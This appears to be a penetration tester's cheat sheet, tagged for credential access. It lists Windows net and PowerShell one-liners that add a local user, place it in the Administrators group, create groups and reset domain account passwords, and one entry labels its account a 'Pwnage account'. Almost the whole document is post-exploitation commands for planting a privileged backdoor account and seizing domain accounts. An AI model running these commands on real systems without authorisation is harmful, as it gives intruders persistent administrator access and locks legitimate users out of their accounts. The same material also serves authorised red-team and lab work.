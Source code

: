 # windows
% windows, credential access

#plateform/windows #target/local #cat/CREDENTIAL-ACCESS

## add local user
```
net user /add <name|jubeaz> <password|Jubeaz12345!>
```

## Add new user to localgroup
```
net localgroup administrators  <name|jubeaz> /add
```
## change user password
```
net user /domain <user> <new_password|P@ssw0rd123>
```

# powershell
% windows, credential access

#plateform/windows #target/local #cat/CREDENTIAL-ACCESS #tag/powershell 

## add local user
```
New-LocalUser -FullName '<fname|jubeaz>' -Name <name|jubeaz> -Password <password|Jubeaz12345!> ‑Description 'Pwnage account'  
```

## Add new user to localgroup
```
add-LocalGroupMember -Group  '<gname|Administrators>' -member <name|jubeaz> 
```

## add local group
```
New-LocalGroup -Name '<name>' -Description '<description>'
```

## change user password (reset domain)
```
Set-ADAccountPassword -Identity <target_user> -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "<password|Jubeaz12345!>" -Force)
```
